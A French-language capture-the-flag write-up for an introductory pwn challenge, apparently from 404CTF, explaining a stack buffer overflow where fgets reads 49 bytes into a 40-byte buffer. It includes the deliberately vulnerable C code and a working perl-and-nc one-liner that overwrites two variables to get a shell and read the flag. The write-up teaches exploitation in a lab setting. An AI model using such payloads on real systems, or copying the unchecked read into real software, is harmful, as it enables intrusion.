

## PWN / Trop facile

<p align="center">
  
</p>


### Look around

Il s'agit d'un challenge d'introduction au pwn, et on nous fournit le code source ... comme le titre l'indique pas besoin d'aller chercher bien loin !

```c

int check=0xdeadbeef;
int key=0xcafebebe;
char buf[40];

fgets(buf,49,stdin);

if ((check==0xcafebebe) && (key==0xdeadbeef))
 {
   puts("Bon retour à la Hallebarde, agent!\n");
   system("/bin/bash");
   puts("Déconnexion...\n");
 }
else
 {
   printf("Cette sécurité est infranchissable, gloire à la Hallebarde!\n");
 }
```

Deux variables `check` et `key` sont initialisées dans la fonction `main` (et seront donc sur la stack) juste après un buffer qui contiendra la saisie de l'utilisateur.

Pour obtenir un shell, il faut que les valeurs de ces variables soient inversées.

`fgets` lit 49 octets sur stdin pour remplir un buffer de 40 octets, on va donc pouvoir déborder de ce buffer et écraser ce qui se trouve après sur la stack.

Par chance, `check` et `key` sont des entiers, donc 4 octets chacun. Les 9 octets supplémentaires permis par `fgets` seront suffisants pour modifier tout ça.


### Analyse statique

Le binaire est aussi fournit, mais y'a même pas besoin d'ouvrir ghidra ...

### Exploit


```bash
$ (perl -e 'print "A"x40 . "\xef\xbe\xad\xde\xbe\xbe\xfe\xca"'; cat;) | nc challenge.404ctf.fr 32458
Bon retour à la Hallebarde, agent!

ls
compromis
flag.txt
cat flag.txt
404CTF{C_7r0P_F4C113_D3_PWN_14_H411384rD3}
```

Je passe par perl pour le oneliner (ça devient trop messy avec python3 ...) et ne pas oublier le `cat` pour maintenir le socket ouvert. Et bien sûr le tout en little endian.
